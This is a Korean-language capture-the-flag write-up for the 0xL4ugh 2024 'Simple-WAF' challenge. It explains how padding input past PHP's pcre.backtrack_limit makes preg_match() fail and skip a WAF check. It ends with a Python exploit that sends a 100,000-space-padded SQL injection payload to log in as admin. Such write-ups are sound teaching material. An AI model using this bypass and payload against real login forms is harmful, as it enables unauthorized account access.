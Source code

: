 SQL Injection 취약점이 존재하고, admin 계정에 로그인해야한다. 하지만, `waf()`함수를 통해 입력 값을 검증하고 있다.    
            
개행을 통해 우회해보려고 하였으나 `preg_match()`에 `s`옵션이 걸려있어 불가능함을 깨닫고, `preg_match()`의 반환 값을 제대로 검사하지 않아 `error`를 발생시켜 `false`를 반환시켜 `waf()`를 우회해야겠다고 생각했다.    
      
<img src="/assets/images/ctf/2024/0xL4ugh/Simple-WAF/2.JPG" width="700px">      
           
https://www.php.net/manual/en/function.preg-match.php     
     
공식 문서를 보면, 정규식에 매칭되지 않으면 `0`을 반환하고, 에러가 발생하면 `false`을 반환한다고 되어있다.             

`preg_match()` 함수는 `pcre` 함수들 중 하나로 `pcre`에 의해 실행된다.    
                         
http://php.adamharvey.name/manual/kr/pcre.configuration.php       
                                
`pcre`는 `pcre.backtrack_limit`,`pcre.recursion_limit`,`pcre.jit` 변수를 갖는데 이 중 `pcre.backtrack_limit` 변수는 `PHP < 5.3.7`에서 Default 값 100,000으로 설정되어 있다. 
     
설정된 `pcre.backtrack_limit` 값을 초과하면 `preg_match()` 함수에서 `false`를 반환해서 우회가 가능하다.     

즉, `username` 값의 길이를 100,000 이상으로 설정하고 SQL Injection을 수행해주면 된다.                
        
### Exploit Code     
       
```python
import requests 
url = "http://20.115.83.90:1339"

r = requests.post(
    f"{url}/", 
    data={
        "username": " "*100000 + "' or username='admin'#", 
        "password":"x", 
        "login-submit": "x"
    })
print(r.status_code)
print(r.text)     
```         
        
<img src="/assets/images/ctf/2024/0xL4ugh/Simple-WAF/1.JPG" width="700px">      
            